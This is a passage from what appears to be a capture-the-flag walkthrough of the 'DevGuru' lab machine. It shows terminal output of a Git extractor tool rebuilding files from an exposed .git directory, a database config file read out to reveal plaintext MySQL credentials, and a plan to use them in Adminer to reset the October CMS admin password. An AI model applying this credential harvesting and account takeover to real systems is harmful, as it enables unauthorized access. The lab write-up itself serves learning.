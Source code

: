 #### GitTools - Git Extractor

```bash
┌──(kali㉿Zeus)-[~/GitTools/Extractor]
└─$ ./extractor.sh /home/kali/Desktop/devguru /home/kali/Desktop/devguru-extracted

[*] Creating...
[+] Found commit: 7de9115700c5656c670b34987c6fbffd39d90cf2
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.gitignore
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/.htaccess
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/README.md
[+] Found file: /home/kali/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/adminer.php
<snip>
```

#### Found Database Credentials

```bash
┌──(kali㉿Zeus)-[~/Desktop/devguru-extracted/0-7de9115700c5656c670b34987c6fbffd39d90cf2/config]
└─$ cat database.php

<snip>
'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ]
<snip>
```

#### Adminer Login - Change October CMS password

URL : http://devguru.local/adminer.php
